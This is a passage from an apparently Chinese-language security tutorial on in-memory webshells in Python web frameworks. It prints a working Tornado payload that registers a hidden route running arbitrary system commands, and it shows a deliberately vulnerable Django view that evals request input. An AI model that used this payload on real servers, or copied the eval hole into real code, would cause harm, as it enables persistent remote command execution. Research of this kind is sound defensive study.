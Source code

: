 将所有分析结合起来，即可在当前场景下构造出下面的请求payload。

```python
http://127.0.0.1:5000/?expression=self.application.add_handlers('.*', ['/tornado-shell', type('ShellHandler', (tornado.web.RequestHandler,), {'get': lambda self: self.write(__import__('os').popen(self.get_argument('cmd', 'id')).read())})])
```

在发出这条请求之后，应用正常返回。

 ![](/attachments/2024-07-10-python-web/6e9eef1d-1e73-4613-ac65-fae895229f49.png)

之后便可以访问 `/tornado-shell` 来执行任意系统命令。

 ![](/attachments/2024-07-10-python-web/76c777a8-f76f-4093-bf24-ca11ea6b2981.png)

## 四、Django

### 4.1 场景代码

```python
# memshell/urls.py
from django.contrib import admin
from django.urls import path
from .views import calc

urlpatterns = [
    path('admin/', admin.site.urls),
    path('calc', calc)
]

# memshell/views.py
from django.http import HttpResponse

def calc(request):
    result = eval(request.GET.get('expression'))
    return HttpResponse('<h2>result: %s!</h2>' % result)
```

虽然 `Django` 的代码结构不太相同，但由于所有路由都定义在 `app/urls.py#urlpatterns` 中，所以大体思路没有什么差别，首先考虑如何获取到这个列表，然后再进行操作。

### 4.2 获取app.urlpatterns

在 `Django` 中，root app下会有一个 `settings.py` 文件用于定义应用配置，其中 `ROOT_URLCONF` 指定了当前应用路由入口，在当前场景下的 `ROOT_URLCONF` 为：

```python
ROOT_URLCONF = 'memshell.urls'
```

首先考虑如何获取到 `settings` 这个对象，得益于当前场景下可以使用 `request`，所以使用其中函数的 `__globals__` 属性来获取到当前的全局变量字典，其中就可以找到。

 ![](/attachments/2024-07-10-python-web/7463b736-ac39-4781-9475-a0f330124c20.png)

那么直接将其导入，就可以获得当前应用的入口app。
